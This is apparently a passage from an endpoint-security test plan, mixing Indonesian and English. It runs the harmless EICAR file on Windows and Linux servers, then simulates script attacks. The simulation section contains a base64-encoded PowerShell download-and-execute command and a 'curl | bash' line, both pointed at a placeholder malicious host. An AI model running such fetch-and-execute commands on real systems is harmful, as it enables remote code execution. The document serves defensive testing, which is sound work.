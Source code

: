 #### A1.2: Malicious Executable Testing

**Windows Server:**
```powershell
# Step 1: Download test malware (menggunakan sample aman)
# CATATAN: Gunakan malware samples dari reputable security vendors
Invoke-WebRequest -Uri "https://secure.eicar.org/eicar_com.zip" -OutFile "C:\temp\test.zip"

# Step 2: Extract dan jalankan
Expand-Archive -Path "C:\temp\test.zip" -DestinationPath "C:\temp\"
& "C:\temp\eicar.com"

# Expected Result:
# - Download diblokir atau file di-quarantine
# - Execution prevented
# - Threat intelligence data ditampilkan
```

**Linux Server:**
```bash
# Step 1: Download test malware
wget https://secure.eicar.org/eicar_com.zip -O /tmp/test.zip

# Step 2: Extract dan jalankan
unzip /tmp/test.zip -d /tmp/
chmod +x /tmp/eicar.com
/tmp/eicar.com

# Expected Result:
# - Download diblokir atau file di-quarantine
# - Execution prevented
# - Process termination logged
```

#### A1.3: Script-based Attack Simulation

**Windows Server:**
```powershell
# PowerShell malicious activity simulation
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("IEX (New-Object Net.WebClient).DownloadString('http://malicious-site.com/payload.ps1')"))
powershell.exe -EncodedCommand $encoded

# Expected Result:
# - Script execution blocked
# - Behavioral analysis triggered
# - Command line logging
```

**Linux Server:**
```bash
# Bash script malicious simulation
curl -s http://malicious-site.com/payload.sh | bash

# Expected Result:
# - Network connection blocked
# - Script execution prevented
# - Shell activity monitored
```

---